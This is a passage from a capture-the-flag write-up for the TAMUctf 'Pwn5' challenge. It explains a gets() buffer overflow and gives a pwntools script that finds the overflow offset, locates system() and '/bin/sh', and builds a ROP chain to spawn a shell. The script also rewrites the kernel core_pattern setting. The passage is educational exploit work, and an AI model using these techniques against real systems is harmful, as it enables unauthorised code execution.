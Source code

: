 So since `n = 7` and `len("ls ") = 3`, this leaves 3 characters apart from the null terminator, like we saw earlier - not much to work with.

The `gets` call to populate `usr_cmd` on the other hand seems much more promising - we can use it to overflow the buffer and override the return address of the function.

We know that the program calls `system`, and that it's statically linked into the ELF, so all we need for a successful ROP attack is to find some parameter to send to `system`.

Luckily, somewhere inside the binary we have exactly what we need:
```console
root@kali:/media/sf_CTFs/tamu/Pwn5# strings pwn5 | grep /bin/sh
/bin/sh
```

Let's put it all together with `pwntools`:

```python
import os
from pwn import *

LOCAL_PATH = "./pwn5"
REMOTE_PATH = ("pwn.tamuctf.com", 4325)

def get_process(is_remote):
    if is_remote:
        p = remote(*REMOTE_PATH)
    else:
        p = process(LOCAL_PATH)
    
    return p

def send_payload(proc, payload):
    proc.sendlineafter("Enter the arguments you would like to pass to ls:", payload)

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm ./core.*")

    payload = cyclic(320)
    proc = get_process(is_remote = False)
    send_payload(proc, payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.eip)
    return offset

e = ELF(LOCAL_PATH)
context.binary = e.path

overflow_offset = get_overflow_offset()
log.info("overflow offset: {}".format(overflow_offset))

system_addr = e.symbols["system"]
log.info("system() address: {}".format(hex(system_addr)))

binsh_addr = next(e.search('/bin/sh\x00'))
log.info("/bin/sh address: {}".format(hex(binsh_addr)))

rop = ROP(context.binary)
rop.system(binsh_addr)

print rop.dump()

p = get_process(args.REMOTE)
```